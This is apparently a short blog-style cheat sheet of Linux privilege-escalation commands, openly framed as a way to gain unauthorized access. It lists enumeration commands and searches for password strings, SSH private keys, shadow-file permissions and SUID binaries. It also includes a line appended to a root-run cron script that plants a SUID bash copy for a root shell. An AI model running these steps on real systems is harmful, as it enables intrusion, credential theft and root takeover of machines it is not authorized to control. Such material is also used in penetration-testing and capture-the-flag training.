 ```yaml
---
title: Linux Privilege Escalation
date: "2022-03-21T00:00:00.000Z"
description: The purpose of this attempt is to gain unauthorize access to the system and locate some weak points {just commands}.
---
```


 📈 The purpose of this attempt is to gain unauthorize access to the system and locate some weak points. Here are the commands that I used and useful resources that makes a potential access gain.


###### Check Kernel Version 
```uname -a```

###### Check distro version
```cat /proc/version```

###### Check all the services running by root and check other services that running by different users
```ps aux | grep root```

###### Check what you can run as SUDO
```sudo -l```

###### Check all the users
```cat /etc/passwd```

###### Check history
```history```

###### Check all the connection
```netstat -ano```

###### Find no root Squashing, all the file you will be putting there will execute it as root
```cat /etc/exports```

###### Find any SUID
```find / -perm -u=s -type f 2>/dev/null```

###### Look for any password
```grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null```

###### Check shadow and passwd permission
```ls -la /etc/passwd```
```ls -la /etc/shadow```

###### Check capabilities
```getcap -r / 2>/dev/null```

###### Check schedulers and pay attention on the file permission, PATH and location if you can overwrite the file
```cat /etc/crontab```
```systemctl list-timers --all```

###### If this command is executed by root it will create file /tmp/bash  and if it execute by /tmp/bash -p it will create a shell root
```echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> file.sh```

###### Look for any confidential files
```find / -name "id_rsa" 2> /dev/null```
```find / -name "authorized_keys" 2> /dev/null```
```find / -name "pass*" 2> /dev/null```

###### Use automated tools
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://github.com/rebootuser/LinEnum
https://github.com/mzet-/linux-exploit-suggester
https://github.com/sleventyeleven/linuxprivchecker
https://gtfobins.github.io/

